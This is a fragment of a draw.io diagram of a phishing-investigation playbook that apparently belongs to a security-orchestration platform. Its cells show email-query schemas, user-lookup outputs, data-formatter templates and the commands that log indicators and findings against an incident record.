        <mxCell id="NKeEgVbL9whLPdXC6YmX-122" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Stats&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ExecutionTime&quot;: 10.25,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;resource_usage&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cache&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;memory&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hits&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;misses&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;disk&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hits&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;misses&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cpu&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user&quot;: &quot;00:00:00&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kernel&quot;: &quot;00:00:00&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total cpu&quot;: &quot;00:00:00&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;memory&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;peak_per_node&quot;: 524384&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;dataset_statistics&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;table_row_count&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;table_size&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Schema&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;Timestamp&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;DateTime&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;NetworkMessageId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;InternetMessageId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderMailFromAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderFromAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderDisplayName&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderObjectId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderMailFromDomain&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderFromDomain&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderIPv4&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderIPv6&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;RecipientEmailAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;RecipientObjectId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;Subject&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailClusterId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int64&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailDirection&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;DeliveryAction&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;DeliveryLocation&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ThreatTypes&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ThreatNames&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;DetectionMethods&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ConfidenceLevel&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;BulkComplaintLevel&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int32&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailAction&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailActionPolicy&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailActionPolicyGuid&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;AuthenticationDetails&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;AttachmentCount&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int32&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;UrlCount&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int32&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailLanguage&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;Connectors&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;OrgLevelAction&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;OrgLevelPolicy&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;UserLevelAction&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;UserLevelPolicy&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ReportId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;AdditionalFields&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Results&quot;: []&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2452.5" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-123" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;User Email :&amp;nbsp;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2480" y="590" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-124" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&#39;User Info&#39;: {&#39;Display Name&#39;: Undefined, &#39;First Name&#39;: &#39;&#39;, &#39;Last Name&#39;: &#39;&#39;, &#39;Email&#39;: Undefined, &#39;Job Title&#39;: &#39;Administrator&#39;}, &#39;User Group&#39;: &#39;&#39;, &#39;User Manager&#39;: {&#39;First Name&#39;: &#39;&#39;, &#39;Last Name&#39;: &#39;&#39;, &#39;Email&#39;: &#39;hhe@d3security.com&#39;, &#39;Job Title&#39;: &#39;Manager&#39;}, &#39;userActivity&#39;: []}&lt;br&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2480" y="630" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-130" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-125" target="NKeEgVbL9whLPdXC6YmX-129">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-125" value="Get All Recipients from the Senders&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2730" y="260" width="210" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-127" value="Update IOA-Sender&lt;br&gt;Command - RSA_InvestigationIOAIOC" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2730" y="375" width="220" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-129" value="Investigation-Sender Correlation&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3000" y="260" width="250" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-131" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Email Information from Malicious Senders&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Correlate MS 365 Defender to get all email information related to malicious sender email addresses&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;[&quot;phish@d3soar.com&quot;]&amp;nbsp;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3015" y="120" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-132" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;{% set results = PlaybookData | jsonpath(&#39;$.[&quot;Get Emails from Senders&quot;].returnData.Results&#39;)|to_list%}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{% set outArray = []%}&lt;/div&gt;&lt;div&gt;{% for item in results if results%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% set object = {&quot;Timestamp&quot;: item.Timestamp, &quot;Sender&quot;: item.SenderFromAddress, &quot;Recipient&quot;: item.RecipientEmailAddress, &quot;Subject&quot;: item.Subject } %}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% set _temp = outArray.append(object)%}&lt;/div&gt;&lt;div&gt;{% endfor %}&lt;/div&gt;&lt;div&gt;{{outArray}}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2740" y="120" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-133" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationIOAIOC&lt;/div&gt;&lt;div&gt;Parameter 1: Type&lt;/div&gt;&lt;div&gt;IOA&lt;/div&gt;&lt;div&gt;Parameter 2: Sub Type&lt;/div&gt;&lt;div&gt;Artifact&lt;/div&gt;&lt;div&gt;Parameter 3: Title&lt;/div&gt;&lt;div&gt;Malicious Sender to Internal Email Address&lt;/div&gt;&lt;div&gt;Parameter 4: Description&lt;/div&gt;&lt;div&gt;Parameter 5: Timestamp&lt;/div&gt;&lt;div&gt;2023-04-25 00:36:26&lt;/div&gt;&lt;div&gt;Parameter 6: Relation&lt;/div&gt;&lt;div&gt;&amp;nbsp;&lt;/div&gt;&lt;div&gt;Parameter 7: Incident No&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 8: Section&lt;/div&gt;&lt;div&gt;Findings: Indicators of Attack (IOA)&lt;/div&gt;&lt;div&gt;Parameter 9: 2nd Subtype&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3000" y="350" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-141" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-134" target="NKeEgVbL9whLPdXC6YmX-140">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-134" value="Get Impacted Usernames&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2805" y="540" width="220" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-136" value="Investigation-Recipients Info&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2790" y="790" width="250" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-138" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set impactedUsers = PlaybookData | jsonpath(&#39;$.[&quot;Get User Information from Azure AD&quot;].returnData[*][&quot;User Info&quot;][&quot;Display Name&quot;]&#39;)|to_list|plus([&quot;Administrator&quot;]) %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{% set outArray = []%}&lt;/div&gt;&lt;div&gt;{% for user in impactedUsers if impactedUsers%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% set object = {&quot;User&quot;: user} %}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% set _temp = outArray.append(object)%}&lt;/div&gt;&lt;div&gt;{% endfor %}&lt;/div&gt;&lt;div&gt;{{outArray}}&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="610" width="200" height="100" as="geometry" />
        </mxCell>
